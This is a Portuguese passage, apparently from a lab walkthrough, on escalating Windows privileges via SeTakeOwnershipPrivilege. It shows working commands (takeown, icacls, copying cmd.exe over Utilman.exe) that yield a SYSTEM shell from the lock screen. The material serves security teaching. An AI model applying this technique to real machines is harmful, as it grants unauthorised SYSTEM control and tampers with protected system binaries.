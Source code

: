 Uma vez no prompt de comando, podemos verificar nossos privilégios com o seguinte comando:
Prompt de comando

C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled

        

Nós vamos abusar utilman.exepara escalar os privilégios desta vez. Utilman é um aplicativo Windows integrado usado para fornecer opções de facilidade de acesso durante a tela de bloqueio:

utilman normal behaviour

Como o Utilman é executado com privilégios SYSTEM, efetivamente ganharemos privilégios SYSTEM se substituirmos o binário original para qualquer carga útil que quisermos. Como podemos nos apropriar de qualquer arquivo, substituí-lo é trivial.

Para substituir o utilman, começaremos por tomar posse dele com o seguinte comando:
Prompt de comando

C:\> takeown /f C:\Windows\System32\Utilman.exe

SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WINPRIVESC2\thmtakeownership".

        

Observe que ser o proprietário de um arquivo não significa necessariamente que você tem privilégios sobre ele, mas sendo o proprietário você pode atribuir a si mesmo quaisquer privilégios que você precisa. Para dar ao seu usuário permissões completas sobre utilman.exe, você pode usar o seguinte comando:
Prompt de comando

C:\> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
processed file: Utilman.exe
Successfully processed 1 files; Failed processing 0 files

        

Depois disso, substituiremos utilman.exe por uma cópia do cmd.exe:
Prompt de comando

C:\Windows\System32\> copy cmd.exe utilman.exe
        1 file(s) copied.

        

Para acionar o utilman, vamos bloquear a tela a partir do botão de início:

lock screen

E, finalmente, clique no botão "Ease of Access", que executa utilman.exe com privilégios SYSTEM. Uma vez que o substituímos por uma cópia cmd.exe, obteremos um prompt de comando com privilégios SYSTEM:
